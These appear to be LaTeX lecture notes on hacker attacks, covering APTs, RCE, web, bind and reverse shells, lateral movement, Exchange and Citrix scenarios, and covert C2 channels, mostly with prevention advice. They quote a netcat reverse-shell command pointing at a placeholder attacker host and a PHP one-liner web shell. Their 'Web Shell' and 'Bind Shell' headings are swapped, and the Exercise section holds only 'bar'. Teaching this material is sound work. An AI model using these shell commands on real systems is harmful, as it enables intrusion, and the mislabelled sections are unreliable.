\chapter{Hacker Attacks}
\newpage

\section{Lecture}

\subsection{Attack Methologies}
\begin{itemize}
    \item Direct Attack
    \item Social Attacks
    \item Man-in-The-Middle Attack
    \item Man-in-The-Browser Attack
    \item Indrect Attack (Virus, Malware, Ransomware)
    \item Attacks on People
    \begin{itemize}
        \item Social Engineering attacks
        \item spoofing
        \item phishing
        \item email infection
    \end{itemize}
\end{itemize}

\subsection{APT - Advanced Persistent threats}
An Advanced Persistent Threat (APT) is a sophisticated cyber attack where an attacker establishes a long-term presence in a network, as shown in the image where multiple "Zombie Hosts" are controlled by agents and a Command \& Control (C\&C) server.

\textbf{APT by image exmaple}
\includegraphics[scale=0.2]{resources/02-apt-01.png}
\begin{itemize}
    \item APT attackers use a multi-stage approach:
    \begin{itemize}
        \tightlist
        \item Initial compromise through agents that infect systems
        \item Establishing persistence by creating zombie hosts (compromised computers)
        \item Setting up command and control infrastructure behind firewalls
        \item Moving laterally through the network to infect more systems
        \item Exfiltrating data or maintaining long-term access
    \end{itemize}

    \item The image demonstrates key APT components:
    \begin{itemize}
        \tightlist
        \item Agents: Initial malware that compromises systems
        \item Zombie Hosts: Infected computers under attacker control
        \item C\&C Server: Central server used by attackers to send commands and receive data
        \item Firewall bypass: Shows how APTs create sophisticated communication channels through security defenses
    \end{itemize}

    \item APTs are typically associated with:
    \begin{itemize}
        \tightlist
        \item Nation-state actors or well-funded criminal groups
        \item Long-term strategic goals rather than quick financial gain
        \item Advanced evasion techniques to avoid detection
        \item Targeted attacks against specific organizations or industries
    \end{itemize}
\end{itemize}

\begin{center}
    \includegraphics[scale=0.5]{resources/02-apt-02.png}
\end{center}
\begin{enumerate}
	\item Infection: The initial compromise of a system through various attack vectors like phishing, exploiting vulnerabilities, or malware delivery. This is where the attacker first gains entry into the target network.
	\item Persistence: Attackers establish a long-term foothold by installing backdoors, creating admin accounts, or modifying system configurations to ensure they maintain access even if the initial entry point is discovered and closed.
	\item Exfiltration: The first phase of data theft, where attackers identify and collect valuable information. They often stage this data in specific locations within the network for later extraction.
	\item Privilege Elevation: Attackers move laterally and vertically through the network, gaining higher-level access permissions and compromising additional systems. This might involve stealing admin credentials or exploiting local vulnerabilities.
	\item Exfiltration II: With elevated privileges, attackers can access and steal more sensitive data from previously inaccessible systems or databases.
	\item Increase Network Access: The final stage where attackers solidify their control over the network, potentially creating additional backdoors and expanding their reach to maintain long-term access for future operations.
\end{enumerate}

This attack chain shows how APTs are methodical, patient operations rather than quick smash-and-grab attacks, with each stage building upon the previous one to achieve deeper network penetration.

\textbf{RCE}
\begin{itemize}
    \item Ability to trigger arbitrary code execution over a network.
    \item This is the holy grail an attacker wants on your system!
    
    \subsubsection*{How to get RCE?}
    \item Command Injection
    \item File Upload (Upload a PHP file to a webserver)
    \item SQL Injections can sometimes be used to get RCE
    \item Buffer Overflow (write own instructions into the process memory and execute it)
    
    \subsubsection*{Exploitation limitation}
    \item Often, an exploit can only execute one command at a time
    \item Shells can be used to interactively execute commands on the system
    \begin{itemize}
        \tightlist
        \item There are multiple types of shells
        \item Web Shells
        \item Bind Shells
        \item Reverse Shells
    \end{itemize}
\end{itemize}

\textbf{Web Shell}
\begin{center}
    \includegraphics[scale=0.5]{resources/02-bind-shell.png}
\end{center}
\begin{itemize}
    \item The image shows a bind shell attack flow:
    \begin{itemize}
        \tightlist
		\item Attacker exploits vulnerability on port 443 (HTTPS)
		\item Target opens and binds a shell to port 2305
		\item Attacker connects to port 2305
		\item Interactive command shell is established with bi-directional communication
		\item Attacker can now execute commands remotely
    \end{itemize}

	\item Common ways to create bind shells:
    \begin{itemize}
        \tightlist
		\item Buffer overflow exploits in network services
		\item Command injection in web applications
		\item Vulnerable network protocols
		\item Malware/backdoors that open listening ports
		\item Format string vulnerabilities
		\item RCE (Remote Code Execution) vulnerabilities
    \end{itemize}

    \item Typical abuse methods:
    \begin{itemize}
        \tightlist
        \item Tools like Metasploit\'s bind\_tcp payload
        \item Custom shellcode that binds to a port
        \item Netcat listening mode (nc \-l \-p port)
        \item Python/Perl scripts creating socket listeners
        \item PowerShell reverse shell scripts
        \item Exploitation of insecure file upload features
    \end{itemize}

	\item Notable vulnerabilities that enabled bind shells:
    \begin{itemize}
        \tightlist
		\item EternalBlue (MS17-010) - SMB vulnerability
		\item ShellShock (CVE-2014-6271) - Bash vulnerability
		\item Log4Shell (CVE-2021-44228) - Java logging vulnerability
		\item ProFTPd backdoor (CVE-2010-4221)
		\item IIS WebDAV exploits
		\item Apache Struts RCE (CVE-2017-5638)
    \end{itemize}

	\item Prevention methods:
    \begin{itemize}
        \tightlist
		\item Proper firewall configuration blocking unauthorized outbound connections
		\item Regular security patching
		\item Network segmentation
		\item Intrusion Detection Systems (IDS) monitoring for bind shell patterns
		\item Application security testing
		\item Endpoint protection monitoring for suspicious processes
    \end{itemize}
\end{itemize}

\textbf{Bind Shell}
\begin{center}
    \includegraphics[scale=0.5]{resources/02-web-shell.png}
\end{center}
\begin{itemize}
	\item The image shows a web shell attack flow:
    \begin{itemize}
        \tightlist
		\item Attacker uploads malicious file (shell.php) to web server via port 443
		\item Attacker executes commands through HTTP GET requests
		\item Server executes command and returns results
		\item In this example, 'whoami' reveals root access
    \end{itemize}

	\item Common ways to upload web shells:
    \begin{itemize}
        \tightlist
		\item File upload vulnerabilities
		\item Insecure file write permissions
		\item Local File Inclusion (LFI)
		\item Remote File Inclusion (RFI)
		\item Content Management System (CMS) vulnerabilities
		\item Compromised FTP credentials
    \end{itemize}

	\item Typical web shell examples:
    \begin{itemize}
        \tightlist
		\item PHP shells (c99, r57)
		\item ASP/ASPX shells (web.config)
		\item JSP shells (cmd.jsp)
		\item Python web shells
		\item Perl CGI shells
		\item One-liner shells like \lstinline{<?php system($_GET['cmd']); ?>}
    \end{itemize}

	\item Notable vulnerabilities enabling web shells:
    \begin{itemize}
        \tightlist
		\item WordPress plugin vulnerabilities
		\item Apache Struts2 vulnerabilities
		\item WebLogic server flaws (CVE-2020-14882)
		\item PHP File Upload bypass
		\item ImageMagick exploit (CVE-2016-3714)
		\item Exchange Server ProxyShell (CVE-2021-34473)
    \end{itemize}

	\item Prevention methods:
    \begin{itemize}
        \tightlist
		\item Strict file upload validation
		\item Web Application Firewall (WAF)
		\item File extension blacklisting
		\item Regular security scans for web shells
		\item Proper file permissions
		\item Monitoring for suspicious HTTP requests
		\item Input sanitization
    \end{itemize}
\end{itemize}

\textbf{Reverse Shell}
\begin{center}
    \includegraphics[scale=0.5]{resources/02-reverse-shell.png}
\end{center}
\begin{itemize}
	\item The image shows a reverse shell attack flow:
    \begin{itemize}
        \tightlist
		\item Attacker starts a listener on port 2305
		\item Exploits vulnerability on target's port 443
		\item Target initiates connection back to attacker
		\item Bi-directional command shell is established
		\item All command results return to attacker's listening port
    \end{itemize}

	\item Common ways to create reverse shells:
    \begin{itemize}
        \tightlist
		\item Netcat reverse shells (`nc -e /bin/sh attacker-ip 2305`)
		\item Python one-liners for socket connections
		\item PowerShell reverse shell scripts
		\item Bash reverse shells
		\item PHP reverse shell scripts
		\item Java/JSP reverse shell code
    \end{itemize}

	\item Typical exploitation methods:
    \begin{itemize}
        \tightlist
		\item Command injection in web applications
		\item SQL injection leading to command execution
		\item Remote code execution vulnerabilities
		\item Malicious file uploads
		\item Social engineering with malicious scripts
		\item Supply chain compromises
    \end{itemize}

	\item Notable vulnerabilities enabling reverse shells:
    \begin{itemize}
        \tightlist
		\item SolarWinds supply chain attack
		\item Log4Shell (CVE-2021-44228)
		\item Spring4Shell (CVE-2022-22965)
		\item Windows Print Spooler (PrintNightmare)
		\item Drupal Drupalgeddon2
		\item Apache Struts2 vulnerabilities
    \end{itemize}

	\item Prevention methods:
    \begin{itemize}
        \tightlist
		\item Egress filtering (blocking unauthorized outbound connections)
		\item Application whitelisting
		\item Network segmentation
		\item Regular security updates
		\item Network monitoring for suspicious connections
		\item Input validation and sanitization
		\item Web Application Firewall (WAF) rules
    \end{itemize}
\end{itemize}

\textbf{Example attack scenarios through corporate IT environment:}
\begin{center}
    
\includegraphics[scale=0.4]{resources/02-tcp-ip-sw-attack.png}
\end{center}

\begin{enumerate}
    \item Network/Protocol Based:
    \begin{itemize}
        \tightlist
	    \item Log4Shell attack through the WAF on port 443
	    \item SQL Injection through web application reaching database
	    \item Server-Side Request Forgery (SSRF) bypassing WAF
	    \item Apache Struts2 RCE through exposed endpoints
    \end{itemize}

    \item Software/Supply Chain:
    \begin{itemize}
        \tightlist
    	\item Compromised NPM package in web application
    	\item Backdoored software update in application server
    	\item Vulnerable third-party library in database
    	\item Compromised CI/CD pipeline deploying malicious code
    \end{itemize}

    \item Each zone (DMZ → App → DB) represents a security boundary that attackers need to bypass, either through:
    \begin{itemize}
        \tightlist
    	\item Protocol abuse (exploiting allowed traffic)
    	\item Software vulnerabilities (exploiting code flaws)
    	\item Supply chain compromises (poisoned dependencies)
    	\item Misconfiguration (improper access controls)
    \end{itemize}
\end{enumerate}

The red dotted lines show potential attack paths, while green solid lines represent legitimate traffic flow.

\textbf{Intranet Port/Service Hopping Attack}
\begin{center}
    
\includegraphics[scale=0.5]{resources/02-port-hopping-attack.png}
\end{center}
\begin{itemize}
	\item Attack Path:
    \begin{itemize}
        \tightlist
		\item Initial entry through WAF on port 443 (HTTPS)
		\item Hop to application server using allowed port 8080
		\item Move to database server on port 1433 (SQL)
		\item Each hop uses legitimate, allowed ports
    \end{itemize}

	\item Attack Methods:
    \begin{itemize}
        \tightlist
		\item Exploit WAF bypass techniques
		\item Use service-to-service trusted connections
		\item Leverage misconfigured port access
		\item Abuse legitimate communication channels
    \end{itemize}

	\item Common Vulnerabilities Used:
    \begin{itemize}
        \tightlist
		\item Service misconfiguration
		\item Weak segmentation
		\item Trust relationship abuse
		\item Excessive port allowances between zones
    \end{itemize}

	\item Prevention:
    \begin{itemize}
        \tightlist
		\item Strict port filtering
		\item Network segmentation
		\item Zero-trust architecture
		\item Regular audit of allowed ports
		\item Service-to-service authentication
    \end{itemize}
\end{itemize}
Each step abuses legitimate communication paths rather than trying to breach through blocked ports or firewalls directly.

\textbf{Exchange server on premise attack}
\begin{center}
   
\includegraphics[scale=0.5]{resources/02-exchange-server-on-prem-attack.png}
\end{center}
\begin{itemize}
	\item Key Components:
    \begin{itemize}
        \tightlist
		\item Exchange Server placed directly in Intranet
		\item Active Directory integration
		\item Double firewall setup
		\item TLS termination at Exchange
    \end{itemize}

	\item Attack Vector:
    \begin{itemize}
        \tightlist
		\item Direct RCE (Remote Code Execution) possible from Internet
		\item No DMZ protection
		\item Exploits Exchange vulnerabilities directly
		\item Can lead to AD compromise
    \end{itemize}

	\item Historical Context:
    \begin{itemize}
        \tightlist
		\item The German text mentions this was a common but dangerous setup
		\item Companies had Exchange servers directly accessible from Internet
		\item Should never place internet-facing services directly in Intranet
		\item All internet-facing services should be in DMZ
    \end{itemize}

	\item Notable Vulnerabilities:
    \begin{itemize}
        \tightlist
		\item ProxyLogon (CVE-2021-26855)
		\item ProxyShell (CVE-2021-34473)
		\item Exchange Server RCE vulnerabilities
		\item Direct path to Active Directory
    \end{itemize}
\end{itemize}

This setup represents a dangerous legacy configuration that bypasses proper network segmentation principles.

\textbf{Citrix attack scenario}
\begin{center}
    
\includegraphics[scale=0.5]{resources/02-citrix-attack-scenario.png}
\end{center}
\begin{itemize}
	\item Infrastructure Components:
    \begin{itemize}
        \tightlist
		\item Citrix server in DMZ
		\item AD and Storage in internal network
		\item Double firewall setup
		\item Remote user access
    \end{itemize}

	\item Attack Vectors:
    \begin{itemize}
        \tightlist
		\item Malware/Trojans targeting Citrix infrastructure
		\item Remote user's physical presence
		\item Direct attacks on Citrix DMZ server
		\item Potential lateral movement to internal resources
    \end{itemize}

	\item Security Considerations:
    \begin{itemize}
        \tightlist
		\item The German text explains that companies using Citrix or similar remote desktop solutions are better protected against viruses/trojans
		\item Malware is contained within Citrix DMZ
		\item Physical user presence creates additional attack surface
		\item DMZ placement provides isolation
    \end{itemize}

	\item Notable Aspects:
    \begin{itemize}
        \tightlist
		\item Separation between internet and internal network
		\item Controlled access through Citrix gateway
		\item User session isolation
		\item DMZ acts as security boundary
    \end{itemize}
\end{itemize}

This setup represents a more secure approach where remote access is mediated through a DMZ-based Citrix infrastructure, containing potential threats.

\textbf{Covert Channel Attack explanation:}
\begin{center}
    \includegraphics[scale=0.4]{resources/02-cover-channel-attack.png}
\end{center}
\begin{itemize}
	\item Communication Channels:
    \begin{itemize}
        \tightlist
		\item Direct HTTPS posts
		\item Web proxy traffic
		\item IPSec tunnels
		\item ICMP/DNS tunneling
    \end{itemize}

	\item Attack Components:
    \begin{itemize}
        \tightlist
		\item C2 (Command \& Control) server running Covenant
		\item Multiple protocol options for communication
		\item Progression through network segments
		\item Ability to reach critical infrastructure (SCADA)
    \end{itemize}

	\item Key Points from German text:
    \begin{itemize}
        \tightlist
		\item Discusses various connection paths from intranet to internet
		\item If any of these protocols work, malware can establish reverse shell or C2 connection
		\item Forms the basis for malware and many APT attacks
		\item Emphasizes need for cyber defense to detect such traffic patterns
    \end{itemize}

	\item Critical Aspects:
    \begin{itemize}
        \tightlist
		\item Multiple covert channels for resilience
		\item Legitimate protocols abuse
		\item Hard-to-detect communication methods
		\item Defense needs to monitor all these protocols
		\item Long-term persistent access capability
    \end{itemize}
\end{itemize}

This represents sophisticated C2 infrastructure using multiple covert channels to maintain communication with compromised systems.

\section{Exercise}
bar
